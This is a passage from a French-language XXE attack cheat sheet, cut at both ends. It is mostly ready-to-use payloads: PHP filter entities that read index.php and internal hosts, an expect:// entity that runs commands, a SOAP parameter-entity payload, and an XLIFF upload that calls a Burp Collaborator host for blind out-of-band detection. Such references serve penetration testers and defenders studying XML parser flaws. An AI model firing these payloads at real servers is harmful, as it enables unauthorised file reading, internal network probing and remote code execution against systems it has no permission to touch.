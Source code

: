 ```xml
%abt;
%exfil;
```
## Enveloppes PHP

### Base64

**Extraire** _**index.php**_
```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
```
#### **Extraire une ressource externe**
```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3"> ]>
```
### Exécution de code à distance

**Si le module "expect" de PHP est chargé**
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>
```
## **SOAP - XEE**
```xml
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```
## XLIFF - XXE

Cet exemple est inspiré de [https://pwn.vg/articles/2021-06/local-file-read-via-error-based-xxe](https://pwn.vg/articles/2021-06/local-file-read-via-error-based-xxe)

XLIFF (XML Localization Interchange File Format) est utilisé pour standardiser l'échange de données dans les processus de localisation. C'est un format basé sur XML principalement utilisé pour transférer des données localisables entre des outils lors de la localisation et comme format d'échange commun pour les outils de CAT (Computer-Aided Translation).

### Analyse de la demande aveugle

Une demande est faite au serveur avec le contenu suivant :
```xml
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://redacted.burpcollaborator.net/?xxe_test"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```
Cependant, cette requête déclenche une erreur de serveur interne, mentionnant spécifiquement un problème avec les déclarations de balisage :
```json
{
"status": 500,
```